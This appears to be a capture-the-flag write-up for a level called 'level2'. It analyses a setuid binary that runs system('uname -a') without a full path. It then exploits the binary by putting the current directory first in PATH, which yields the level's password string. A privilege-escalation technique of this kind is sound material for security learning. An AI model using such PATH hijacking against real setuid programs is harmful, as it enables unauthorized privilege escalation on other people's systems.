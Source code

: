 # Level 2

`level2` is a `setuid` binary.

```shell
> ls -l $(which level2) && file $(which level2)
```

```
-rwsr-sr-x 1 level2 users 15904 Oct 6 17:58 level2
level2: setuid, setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.32,
 BuildID[sha1]=d2eb4ad9b52658d2f65b51b670ebd8c5f45347b1, not stripped
```

---

Running the binary gives us output that looks suspiciously like `uname`

```shell
> level2
```

```
System info: Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
```

---

Running `strings` on the binary reveals that it does indeed have a string with `uname -a` in it.

```shell
> strings $(which level2)
```

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
fflush
printf
stdout
system
__libc_start_main
__gmon_start__
GLIBC_2.2.5
fffff.
AWAVA
AUATL
[]A\A]A^A_
System info: 
uname -a
;*3$"
```

---

Further analysis reveals that the binary runs `system("uname -a")`, relying on `$PATH` to find the uname binary.

```shell
> ltrace level2
```

```
__libc_start_main(0x4004e0, 1, 0x7fff46fdfd58, 0x400610 <unfinished ...>
printf("System info: ")                                                 = 13
fflush(0x7ff9aef32800System info: )                                                  = 0
system("uname -a"Linux ctf.geekcamp.sg 3.16.4-1-ARCH #1 SMP PREEMPT Mon Oct 6 08:22:27 CEST 2014 x86_64 GNU/Linux
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

---

At this point, the exploit is trivial.

```shell
> export PATH=$PWD:$PATH; level2
```

```
System info: wunekahniisahnohpaiwoobahbaugeutaexaokal
```

\#win
